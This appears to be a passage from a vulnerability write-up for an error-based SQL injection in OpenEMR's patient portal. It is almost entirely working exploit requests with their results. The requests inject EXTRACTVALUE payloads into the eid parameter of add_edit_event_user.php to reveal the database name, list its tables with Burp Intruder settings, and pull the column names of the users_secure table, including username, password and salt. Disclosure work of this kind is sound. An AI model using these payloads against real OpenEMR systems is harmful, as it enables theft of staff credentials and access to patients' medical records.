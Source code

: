It is possible to query SQL commands with this **Error-based SQL Injection**.

Enumerating name of the database:
```
GET /portal/add_edit_event_user.php?eid=1+AND+EXTRACTVALUE(0,CONCAT(0x0a,(SELECT+database())))
```
```
openemr
```

Getting tables from the _Information_Schema_ database:
```
GET /portal/add_edit_event_user.php?eid=1+AND+EXTRACTVALUE(0,CONCAT(0x0a,(SELECT+TABLE_NAME+FROM+INFORMATION_SCHEMA.TABLES+WHERE+TABLE_SCHEMA+like+'openemr'+LIMIT+0,1)))

(...)LIMIT+1,1)))
(...)LIMIT+2,1)))
(...)LIMIT+3,1)))
(...)
```

To get through all the tables, either a script can be written or the **Burpsuite Intruder** can be used:
```
- Payload Position: (...)'openemr'+LIMIT+§0§,1)))
- Payload type: Numbers
- Payload Options:
  - From: 0
  - To: 300
  - Step: 1
```

After it is done, row 227 will show a table called _users_ and row 229 a table called _users_secure_.
```
(...)LIMIT+227,1)))

(...)LIMIT+229,1)))
```

Enumerating columns of the table _users_secure_:
```
GET /portal/add_edit_event_user.php?eid=1+AND+EXTRACTVALUE(0,CONCAT(0x0a,(SELECT+COLUMN_NAME+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME+like+'users_secure'+LIMIT+0,1)))
--> id

(...)LIMIT+1,1)))
--> username

(...)LIMIT+2,1)))
--> password

(...)LIMIT+3,1)))
--> salt

(...)
```
